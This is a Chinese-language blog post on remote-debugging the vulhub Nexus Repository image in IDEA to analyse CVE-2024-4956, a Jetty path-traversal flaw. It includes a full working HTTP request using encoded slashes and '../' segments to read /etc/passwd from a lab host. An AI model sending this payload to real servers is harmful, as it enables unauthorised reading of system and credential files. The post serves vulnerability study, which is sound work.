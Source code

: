 #  通过IDEA远程调试vulhub当中的Nexus镜像分析CVE-2024-4956   
原创 进击的hack  进击的HACK   2024-06-03 20:45  
  
## 前言  
  
本篇文章主要记录用IDEA远程调试docker当中的nexus。对nexus漏洞的分析写得不是那么好，如果想要看具体漏洞讲解的，我提供以下两篇，写得都比我好（泪目）。https://www.cnblogs.com/Rainy-Day/p/18214409  
  
https://exp10it.io/2024/05/通过-java-fuzzing-挖掘-nexus-repository-3-目录穿越漏洞-cve-2024-4956/  
  
也是因为这个具体产生的原因在jetty容器当中，我跟Nexus的源码找不到。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmLhPFCBWvooSU9Sm7are5IhxYKdQwb4FzDibPEFTahFBLKfB2CZ7WOUg/640?wx_fmt=png&from=appmsg "")  
  
  
## 调试前准备  
  
Nexus镜像下载：https://github.com/vulhub/vulhub/tree/096cd5e7063d739aa48e4c620d4950803193de88/nexus/CVE-2024-4956  
  
下载代码：https://codeload.github.com/sonatype/nexus-public/zip/refs/tags/release-3.68.0-04  
  
解压后通过 idea 打开，等待pom.xml中的依赖被安装如果下载依赖慢，建议使用国内的镜像。  
  
接着开启远程调试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1Rm2VUibK4A2OsibdlKqJ1CBIicO2d75Opkdtickc0XicHzF1Dp9PnOVtmoW2g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmY1JJfzWRvLTIbAEH9os2xPqEJooUxzXicibxFIiaHdmwrQCnk6pibdv9kw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmYITDP9ol7kXbVicFXHLE5NSbaSfbbXWf3DfSaQnFHt73F6ic1T1YaZhQ/640?wx_fmt=png&from=appmsg "")  
  
OK，之后就可以下断点调试了  
  
注意：如果调试一会后，遇到了即使下断点，重新debug也无法调试的情况，重启镜像。  
```
sudo docker ps
sudo docker restart 341
```  
## 代码分析  
  
比对修复后与修复前的代码，查看修改了哪些位置，方便定位漏洞位置访问 https://github.com/sonatype/nexus-public/releases‘代码比较  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmYadovXrY0Rsjgb11nEs1BqDDGInH11uEHSyUeKdqnbdkpdia9M6iaoAQ/640?wx_fmt=png&from=appmsg "")  
  
  
其中有一堆xml和html，显然不是我们要找的，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmnBdvZibvOYVibO2QTUBhEp8C0pcXK8vibyNWv6ibxMLAkCdibcXMkgWb1iaQ/640?wx_fmt=png&from=appmsg "")  
  
ctrl + f 搜索 .java  
  
  
也可以通过idea 进行代码比对  
idea新建一个项目  
下载两个源码包，解压后放在项目中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmGn0ZBmYjdQLBS0NiaeCORsiaecibapsvdAu2e5H1kkHC1VJy4jLPq2wVA/640?wx_fmt=png&from=appmsg "")  
  
选择其中一个，按住 ctrl + d ，然后点击另一个文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmWX1NBK2I1JanSydwWcQwFuhw8NDNWzVib9Mt67318IrO0ajnq7MRibUw/640?wx_fmt=png&from=appmsg "")  
  
过滤 java文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmyB4T1kQ0hzlWiak44mxibrGApenXJRWRE2X676BdgficdMNgedmUOqyCQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到，这块代码被删除，分析后看出这是通过path读取资源的功能，  
  
这就是漏洞所在  
## 漏洞出现的原因  
  
URIUtil.canonicalPath 是 jetty容器当中的函数，用来处理路径。URIUtil.canonicalPath 在处理路径时，会将空的字符串也认为是一个目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmXHibn5pwqZIXKWKsiclXibruM8KePrtF7jAwToCVD1sJq6Z3selcdaEpQ/640?wx_fmt=png&from=appmsg "")  
  
虽然该函数将//认为是空的目录，但其他函数或者Linux或者file://伪协议并不这么认为，这就导致了存在绕过的可能。  
```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: 192.168.23.143:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: */*
Referer: http://192.168.23.143:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.3295531852435827; NXSESSIONID=fd8be857-5b8e-49ab-b677-45313c83c73d; apt.uid=AP-YFGMCGUNNIFB-2-1717380864372-66381115.0.2.a2e3917a-4f22-4c24-8671-436b74b600a2; apt.sid=AP-YFGMCGUNNIFB-2-1717404448571-73575477
Connection: close

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmfhicpPicWLDXPWsrNfVLzKMz59v9icYvmx4ZAeC58xJiaM8uJsUtRIPdww/640?wx_fmt=png&from=appmsg "")  
  
漏洞分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmdJDX6O5k4k2Knyd8g5Npib8pTsrAsDZ9WwqSibnVblNRk5SKG1btXBag/640?wx_fmt=png&from=appmsg "")  
  
传入的参数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrgUv8paok3icXgSHN5A6G1RmNPiaIaeslYKcbe7IK1QmROCtib8QxFxP4yKRqJjRyvYohGia7ssZhhoCw/640?wx_fmt=png&from=appmsg "")  
  
https://github.com/jetty/jetty.project/blob/jetty-12.0.x/jetty-core/jetty-util/src/main/java/org/eclipse/jetty/util/URIUtil.java#L714  
## 参考链接  
  
https://www.cnblogs.com/Rainy-Day/p/18214409  
  
  
